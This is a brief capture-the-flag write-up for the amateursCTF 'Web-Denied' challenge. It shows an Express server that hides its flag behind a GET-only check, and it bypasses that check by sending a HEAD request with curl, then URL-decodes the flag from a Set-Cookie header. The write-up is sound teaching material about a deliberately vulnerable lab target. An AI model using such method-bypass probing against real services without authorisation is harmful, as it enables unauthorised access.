

# Web-Denied

solved by makider https://makider.me/

## Challenge Text

what options do i have?
http://denied.amt.rs/



## writeup

this challenge was very simple, to solve it we have to analyze the code though


```js
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

as you can see if we make any get request to the website it returns Bad!

```bash
curl http://denied.amt.rs/
Bad!
```

to get the flag we can just send a request different from GET so we bypass the if condition.
`if (req.method == "GET") return res.send("Bad!");`

now there are many verbs we can use: DELETE, PATCH, HEAD, OPTIONS, TRACE i'll use my favourite one: `HEAD`

we can now use curl to send the request like this:

`curl -X HEAD http://denied.amt.rs/ -v`

+ note the `-v` argument it's useful to get the raw request headers

now we can read the flag in the output in the `Set-Cookie` header

`Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions…%7D; Path=/`

let's URL decode it in cyberchef

https://gchq.github.io/CyberChef/#recipe=URL_Decode()&input=YW1hdGV1cnNDVEYlN0JzMF9tJTQwbnlfMHB0aW9uc%2BKApiU3RA&oenc=65001

and we have the flag!

### The flag

`amateursCTF{s0_m@ny_0ptions…}`
